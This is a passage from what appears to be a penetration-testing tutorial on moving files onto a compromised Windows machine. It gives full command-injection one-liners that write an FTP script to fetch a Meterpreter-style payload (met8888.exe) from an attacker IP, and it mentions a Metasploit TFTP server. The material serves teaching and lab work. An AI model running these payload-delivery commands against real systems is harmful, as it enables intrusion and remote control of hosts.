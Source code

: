 ![Windows FTP Interactive](/images/2016/06/windows_ftp_get.png)

Now this is great if you have an interactive shell where you can actually drop into the FTP prompt and issue commands, but it's not that useful if you just have command injection and can only issue one command at a time. 

Fortunately, windows FTP can take a "script" of commands directly from the command line. Which means if we have a text file on the system that contains this:
```
open 10.9.122.8
anonymous
whatever
binary
get met8888.exe
bye
```
we can simply run `ftp -s:ftp_commands.txt` and we can download a file with no user interaction.

How to get that text file? We can echo into it one line at at time:
```
C:\Users\jarrieta\Desktop>echo open 10.9.122.8>ftp_commands.txt
C:\Users\jarrieta\Desktop>echo anonymous>>ftp_commands.txt
C:\Users\jarrieta\Desktop>echo whatever>>ftp_commands.txt
C:\Users\jarrieta\Desktop>echo binary>>ftp_commands.txt
C:\Users\jarrieta\Desktop>echo get met8888.exe>>ftp_commands.txt
C:\Users\jarrieta\Desktop>echo bye>>ftp_commands.txt
C:\Users\jarrieta\Desktop>ftp -s:ftp_commands.txt
```

Or, do it all in one long line:
```
C:\Users\jarrieta\Desktop>echo open 10.9.122.8>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get met8888.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt
```

Either way you'll end up with `met8888.exe` on the Windows host.


## TFTP
Trivial file transfer protocol is another possiblity if `tftp` is installed on the system. It used to be installed by default in Windows XP, but now needs to be manually enabled on newer versions of Windows. If the Windows machine you have access to happens to have the `tftp` client installed, however, it can make a really convenient way to grab files in a single command.

### Starting the Server
Kali comes with a TFTP server installed, `atftpd`, which can be started with a simple `service atftpd start`. I've always had a hell of a time getting it configured and working though, and I rarely need to start and keep running a TFTP server as a service, so I just use the simpler Metasploit module.

Metasploit, like with FTP, has an auxiliary TFTP server module at `auxiliary/server/tftp`. Set the module options, including `TFTPROOT`, which determines which directory to serve up, and `OUTPUTPATH` if you want to capture TFTP uploads from Windows as well.

